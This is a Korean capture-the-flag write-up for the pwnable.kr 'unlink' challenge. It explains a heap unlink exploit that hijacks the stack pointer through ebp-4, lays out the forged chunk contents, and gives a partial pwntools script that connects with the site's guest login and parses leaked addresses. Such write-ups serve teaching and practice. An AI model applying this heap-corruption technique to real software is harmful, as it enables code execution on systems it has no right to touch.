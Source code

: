 보면 이상하게도 leave 후 바로 ret하는게 아니라 뭔가 다른걸 한다.  

ebp-4에 있는 것을 ecx에 넣은 다음 leave를 하고(ebp값을 esp에 저장) ecx-4의 값을 esp에 넣은 다음 ret한다(pop eip, jmp eip)  

만약 ebp-4 에 우리가 원하는 값을 넣을 수 있다면 우리는 esp를 컨트롤할 수 있게 되고 이를 이용해서 eip를 컨트롤 할 수 있다.  

그리고 esp가 참조할 값은 ecx-4 에 있는 값이지 ecx에 있는 값이 아니므로, ecx에 뭘 덮어쓰던 상관 없다.  
그 위에 있는 값이 중요하니까.  

즉 BK-4에 shell함수의 주소, BK에는 BK에 해당하는 힙주소, FD에는 A의 주소 + 0x10을 넣으면 된다  

왜 A의 주소 + 0x10을 넣느냐면 A가 ebp-0x14이기 때문이다.  

그럼 이제 아래와 같이 채워 넣으면 된다  

~~~
-4  chunk size = 0x18 & used flag 1 = 0x19  
 0   A->fd = 0x09d13428        (여기가 leak 되는 heap주소)
 4   A->bk = 0x00000000
------------여기서 부터 써진다-----------------------------
 8   shell의 주소 = 0x80484eb   (A->buf[0-3])
12   aaaa                       (A->buf[4-7])
16   aaaa                       (원래 비어있음)
20   aaaa                       (chunk size 0x18 & 1)
24   leaked heap addr + 12      (B->fd)
28   leaked stack addr + 16     (B->bk)
------------여기 부터는 상관 없음----------------------------
32   B->buf[0-3]
36   B->buf[0-3]
40   비어 있음
44   chunk size 0x18 & 1   
48   C->fd = 0x00000000
52   C->bk = 0x09d13428
56   C->buf[0-3]
60   C->buf[4-7]
~~~

이렇게 되면  

B->fd = leaked heap addr + 12  
FD->bk는 +4이므로,  
(leaked heap addr + 12) + 4 = leaked stack addr + 16  

B->bk = leaked stack addr + 16 (= A+0x10 = ebp-0x4)  
BK->fd는 +0이므로,  
(leaked stack addr + 16) = (ebp-4) = leaked heap addr + 12  

그런 다음 ecx에는 ebp-4에 있는 leaked heap addr + 12를 가져오고  
여기에 -4한 leaked heap addr +8을 pop eip, jmp eip 하게 된다.  
그리고 8에는 이미 들어간 shell의 주소가 있다  

주소를 받아서 그걸 계산해서 binary로 넣어야 하기 때문에 이 문제는 pwntool같은걸 쓰는게 필수다.  
좀 익혀둘 필요가 있을것 같다...  

```python
from __future__ import print_function
from pwn import *
import re
import sys

ssh = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
s = ssh.process('/home/unlink/unlink')

leakStr = s.recvuntil('now that') 
stackAddr, heapAddr = re.findall("(0x[a-fA-F0-9]+)\n", leakStr)
stackAddr, heapAddr = int(stackAddr,16), int(heapAddr,16)

log.success('Address of local variable A: '+hex(stackAddr))
log.success('Address of heap allocated A: '+hex(heapAddr))

```

[pwnable.kr]: https://pwnable.kr